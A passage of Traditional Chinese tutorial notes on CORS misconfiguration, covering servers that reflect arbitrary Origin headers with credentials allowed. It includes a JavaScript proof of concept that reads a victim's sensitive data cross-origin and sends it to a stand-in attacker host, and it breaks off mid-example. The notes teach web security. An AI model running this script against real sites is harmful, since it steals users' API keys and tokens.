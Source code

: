 因此
- 一些 Application 採取簡單的方法，有效地允許來自任何其他 domain 的訪問

一種方法是通過從 request 中讀取 `Origin` header 並包括一個 responser header
- 說明 request 的來源是允許的
- 例如，考慮一個收到以下 request 的 Application

 
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

然後它的 response 是

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...

```


這些 header 表示
- 允許從 request domain （`malicious-website.com`）訪問
- cross-origin requests 可以包括 cookies（`Access-Control-Allow-Credentials: true`），因此將在 session 中處理


由於 Application 在 `Access-Control-Allow-Origin` header 中反映了任意的來源
- 這意味著任何 domain 都可以訪問來自受攻擊 domain 的資源
- 如果 response 包含任何敏感資訊，如 API key or CSRF token，你可以通過在你的網站上放置以下 script 來 fetch 這些資訊

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='//malicious-website.com/log?key='+this.responseText;
};

```

---------------


## 錯誤的解析 `Origin` headers
一些支持從多個 origins 訪問的 Application 使用 whitelist 來實現這功能
- 當收到 CORS request 時，提供的 origin 與 whitelist 進行比較
- 如果該 origin 在白名單上，那麼它就會反映在 `Access-Control-Allow-Origin` header 中，這樣允許訪問
- 例如，Application 收到一個正常的 request，如：
 
